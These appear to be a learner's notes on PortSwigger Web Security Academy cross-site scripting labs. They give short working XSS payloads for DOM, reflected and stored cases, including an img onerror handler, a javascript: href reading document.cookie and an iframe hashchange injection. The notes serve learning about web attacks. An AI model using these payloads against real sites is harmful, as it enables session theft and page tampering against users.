 ##### DOM XSS in innerHTML using location.search
```
Bascially when you give a script tag it accepts it but does not activate, then use an invalid image that throws an error, AKA alert.
<img src=1 onerror=alert(1)>
```


##### DOM XSS in jQuery anchor href attribute sink using location.search source
in the back page button we find
![[Pasted image 20230929093809.png]]
![[Pasted image 20230929093753.png]]
href determines the returnpath
Use javascript: as an anchor to execute code
```
javascript:alert(document.cookie)
```



##### DOM XSS in jQuery selector sink using a hashchange event
location.hash takes the # input after the URL
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
Basically we are appending to a body request the url of the page we want to redirect with a # at the end, after, on the load of the page we append to the # an invalid image src, throwing an error, that could be an alert or a print javascript function


##### Reflected XSS breaking attribute with angle brackets
```
kraken" onmouseover='alert()'
```

![[Pasted image 20230929224731.png]]
![[Pasted image 20230929224822.png]]
Basically we closed quotes and inside the input flag we appended a onmouseover alert, when you move the mouse now on the letterbox you get the alert


##### Stored XSS into anchor href attribute with double quotes HTML-encoded
![[Pasted image 20230930230400.png]]
```
javascript:alert()
```
![[Pasted image 20230930230857.png]]

